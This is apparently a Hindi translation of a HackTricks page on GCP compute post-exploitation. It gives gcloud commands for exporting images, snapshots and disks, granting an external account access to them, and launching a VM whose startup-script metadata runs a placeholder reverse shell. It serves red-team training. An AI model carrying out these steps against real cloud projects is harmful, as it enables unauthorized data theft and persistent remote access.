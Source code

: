 # GCP - Compute Post Exploitation

{% hint style="success" %}
AWS Hacking सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks को समर्थन दें</summary>

* [**subscription plans**](https://github.com/sponsors/carlospolop) देखें!
* **💬 [**Discord group**](https://discord.gg/hRep4RUj7f) या [**telegram group**](https://t.me/peass) में शामिल हों या हमें **Twitter** 🐦 पर **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **PRs सबमिट करके हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>
{% endhint %}

## Compute

Compute और VPC (Networking) के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Export & Inspect Images locally

यह एक हमलावर को **पहले से मौजूद इमेज में निहित डेटा तक पहुंचने** या **चल रहे VMs की नई इमेज बनाने** और उनके डेटा तक पहुंचने की अनुमति देगा बिना चल रहे VM तक पहुंच के।

एक VM इमेज को एक बकेट में निर्यात करना और फिर इसे डाउनलोड करना और इसे स्थानीय रूप से माउंट करना संभव है इस कमांड के साथ:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

इस क्रिया को करने के लिए हमलावर को स्टोरेज बकेट पर विशेषाधिकारों की आवश्यकता हो सकती है और निश्चित रूप से **cloudbuild पर विशेषाधिकारों** की आवश्यकता होगी क्योंकि यह **सेवा** है जिसे निर्यात करने के लिए कहा जाएगा।\
इसके अलावा, इसके काम करने के लिए codebuild SA और compute SA को विशेषाधिकार प्राप्त अनुमतियों की आवश्यकता होती है।\
cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` को निम्नलिखित की आवश्यकता है:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

और SA `<project-id>-compute@developer.gserviceaccount.com` को निम्नलिखित की आवश्यकता है:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### स्नैपशॉट्स और डिस्क्स को लोकली निर्यात और निरीक्षण करें

स्नैपशॉट्स और डिस्क्स को सीधे निर्यात करना संभव नहीं है, लेकिन यह संभव है कि **स्नैपशॉट को डिस्क में, डिस्क को इमेज में बदलें** और **पिछले अनुभाग** का पालन करते हुए, उस इमेज को निर्यात करें ताकि इसे लोकली निरीक्षण किया जा सके।

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### एक VM बनाकर एक इमेज का निरीक्षण करें

एक हमलावर द्वारा **एक इमेज बनाई गई है** या **चल रहे VM** के अंदर **इमेज में संग्रहीत डेटा** तक पहुंचने के लक्ष्य के साथ, यह संभव है कि एक बाहरी खाते को इमेज पर पहुंच प्रदान की जाए:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
और फिर इससे एक नया VM बनाएं:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
यदि आप अपने बाहरी खाते को इमेज पर एक्सेस नहीं दे सकते, तो आप पीड़ित के प्रोजेक्ट में उस इमेज का उपयोग करके एक VM लॉन्च कर सकते हैं और **मेटाडेटा को रिवर्स शेल निष्पादित करने के लिए** इमेज में निम्नलिखित पैरामीटर जोड़ सकते हैं:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspect a Snapshot/Disk attaching it to a VM

डिस्क या स्नैपशॉट में संग्रहीत **डेटा तक पहुंचने के लक्ष्य के साथ, आप स्नैपशॉट को डिस्क में बदल सकते हैं, डिस्क को इमेज में बदल सकते हैं और पिछले चरणों का पालन कर सकते हैं।**

या आप **डिस्क पर बाहरी खाते को एक्सेस प्रदान कर सकते हैं** (यदि प्रारंभिक बिंदु स्नैपशॉट है तो स्नैपशॉट पर एक्सेस दें या उससे डिस्क बनाएं):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**डिस्क को अटैच करें** एक instance पर:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
VM के अंदर डिस्क माउंट करें:

1.  **VM में SSH करें**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **डिस्क की पहचान करें**: VM के अंदर, नई डिस्क की पहचान करें डिस्क डिवाइस को लिस्ट करके। आमतौर पर, आप इसे `/dev/sdb`, `/dev/sdc`, आदि के रूप में पा सकते हैं।
3. **डिस्क को फॉर्मेट और माउंट करें** (यदि यह एक नई या रॉ डिस्क है):
*   एक माउंट पॉइंट बनाएं:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   डिस्क माउंट करें:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

यदि आप **snapshot या डिस्क को किसी बाहरी प्रोजेक्ट को एक्सेस नहीं दे सकते**, तो आपको **snapshot/disk के समान प्रोजेक्ट में एक instance के अंदर ये क्रियाएं करनी पड़ सकती हैं**।

{% hint style="success" %}
AWS Hacking सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks को सपोर्ट करें</summary>

* [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* 💬 [**Discord ग्रुप**](https://discord.gg/hRep4RUj7f) या [**telegram ग्रुप**](https://t.me/peass) में शामिल हों या हमें **Twitter** 🐦 पर फॉलो करें [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके।

</details>
{% endhint %}
